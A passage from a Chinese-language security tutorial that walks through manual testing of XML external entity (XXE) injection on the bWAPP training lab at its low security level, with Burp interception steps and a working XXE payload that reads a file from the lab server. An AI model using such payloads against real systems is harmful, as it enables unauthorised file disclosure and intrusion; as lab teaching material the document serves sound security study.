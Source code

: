 ## 3.2 手工测试
这里笔者选用bWAPP虚拟机靶场对回显XXE和Blind XXE进行手工测试。
### 3.2.1 Low等级
#### 3.2.1.1测试过程
Bug：选择`XML External Entity Attacks (XXE)`
Security level：选择`low`
![图片](assets/图片11.png)

点击Any bugs?进行抓包，发送到Repeater
![图片](assets/图片12.png)

根据请求包内容可知，xxe-1.php 文件中将接收到的XML文件以POST方式发送给xxe-2.php，安全等级为0。
读取网站任意文件Payload：
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE note[
<!ENTITY Quan SYSTEM "http://192.168.246.136/bWAPP/robots.txt">
]>

<reset><login>&Quan;</login><secret>Any bugs?</secret></reset>
```
读取成功